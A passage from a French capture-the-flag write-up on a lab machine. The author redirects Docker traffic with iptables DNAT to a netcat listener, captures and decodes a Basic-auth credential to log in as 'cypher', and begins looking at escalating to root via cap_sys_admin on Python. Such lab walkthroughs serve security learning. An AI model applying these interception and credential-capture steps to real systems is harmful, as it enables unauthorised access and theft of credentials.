 ```shellsession
DROP       all  --  anywhere             anywhere            
RETURN     all  --  anywhere             anywhere            

Chain DOCKER-USER (1 references)
target     prot opt source               destination         
RETURN     all  --  anywhere             anywhere
```

Mon objectif est donc d'utiliser `iptables` pour forwarder les paquets à destination du port 81 vers un port que j'aurais mis en écoute sur la machine (8181, qui ne nécessite pas de droits root).

J'ai fouillé un peu sur Internet et utilisé les commandes suivantes :

```shellsession
$ /usr/sbin/xtables-nft-multi iptables -A FORWARD -p tcp -d 172.17.0.1 --dport 81 -j ACCEPT
$ /usr/sbin/xtables-nft-multi iptables -A PREROUTING -t nat -i docker0 -p tcp --dport 81 -j DNAT --to 172.17.0.1:8181
```

Je ne suis pas sûr que la première commande soit nécessaire ici mais la seconde se charge de faire la redirection pour l'interface réseau du Docker. Dans le doute j'ai aussi appliqué la redirection pour chaque couple interface - adresse IP locale.

Finalement ça a frappé à la porte :

```shellsession
www-data@morpheus:/var/www/html$ nc -l -p 8181 -v
nc: getnameinfo: Temporary failure in name resolution
nc: getnameinfo: Temporary failure in name resolution
GET / HTTP/1.1
Host: 172.17.0.1:81
User-Agent: Go-http-client/1.1
Authorization: Basic Y3lwaGVyOmNhY2hlLXByb3N5LXByb2NlZWRzLWNsdWUtZXhwaWF0ZS1hbW1vLXB1Z2lsaXN0
Accept-Encoding: gzip
```

Le base64 de l'auth basic se décode en :

`cypher:cache-prosy-proceeds-clue-expiate-ammo-pugilist`

C'est clair que *rockyou* n'aurait pas cassé ça ! Le mot de passe permet de se connecter avec le compte `cypher` et du coup d'être enfin membre du groupe `humans` (youpi) !

Un flag est dans le dossier de l'utilisateur :

```shellsession
cypher@morpheus:~$ cat FLAG.txt 
You've clearly gained access as user Cypher.

Can you find a way to get to root?
```

Je pensais que la capability `cap_sys_admin` sur `/usr/bin/python3-9` me permettrait de faire un setuid 0 et d'obtenir un shell mais d'après la manpage, ce qui ressort c'est surtout la possibilité de pouvoir monter / démonter des systèmes de fichier.

J'ai trouvé ce post *StackOverflow* : [unix - How do I mount a filesystem using Python?](https://stackoverflow.com/questions/1667257/how-do-i-mount-a-filesystem-using-python/29156997#29156997) Il indique comment monter un FS en Python.
